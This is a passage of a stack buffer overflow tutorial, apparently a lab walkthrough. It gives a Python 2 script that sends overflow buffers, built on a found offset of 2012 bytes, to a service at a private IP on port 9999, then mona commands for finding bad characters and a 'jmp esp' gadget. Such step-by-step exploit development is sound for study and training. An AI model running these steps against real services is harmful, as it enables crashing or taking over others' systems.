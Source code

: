 Now lets build a exploit with the offset we got 


```python


#!/usr/bin/python 

import sys, socket

ip = '192.168.195.149'
port = 9999
offset = 2012
buffer = ["A"*offset + "B"*4 ]
counter = 100

while len(buffer) <= 30:
    buffer.append('A'*counter)
    counter = counter + 100
try:
    for string in buffer:
        print '[+] Sending %s bytes...' % len(string)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        s.recv(1024)
        s.recv(1024)
        s.send("davs" '\r\n')
        s.recv(1024)
        s.send(string + '\r\n')
        print '[+] Done'
except:
    print '([!] A connection cant be stablished to the program. It may have crashed.)'
    sys.exit(0)
finally:
    s.close()

```



We got the offset so now we need to check for the bad chars so we can exclude them , we know that "/x00" is the first one , so we can add that.  

On mona we need to run 
``!mona byte_array -b "\x00"


Then we need to check for the jmp , or the ESP register on the CPU 

There are two ways of getting this with the jmp , or the ESP 

### For the JMP 

We need to run 

`   !mona jmp -r esp   `
